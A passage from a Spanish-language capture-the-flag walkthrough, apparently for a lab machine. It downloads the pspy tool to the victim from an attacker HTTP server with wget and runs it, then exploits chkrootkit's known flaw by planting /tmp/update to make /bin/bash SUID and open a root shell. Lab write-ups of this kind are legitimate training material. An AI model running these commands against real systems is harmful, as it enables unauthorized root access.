 ```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```

Desde la maquina victima, downloadeamos el fichero y lo lanzamos

```bash
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

Esperamos un poco y vemos que hay un script 
```bash
 /usr/bin/chkrootkit 
```
 que se ejecuta a interval regular de tiempo.

#### Priviledge escalation con chkrootkit {-}

```bash
searchsploit chkrootkit
```

Ya vemos que hay un exploit para Local Priviledge Escalation. Lo analizamos.

```bash
searchsploit -x 33899
```

Creamos un fichero llamado update en tmp

```bash
cd /tmp
echo '#!/bin/bash\n\nchmod 4755 /bin/bash' > update
chmod +x update
watch -n 1 ls -l /bin/bash
```

Ya podemos utilizar bash para convertirnos en root

```bash
bash -p
whoami
#Output

root
```

Ya hemos rooteado la maquina y podemos ver la flag.

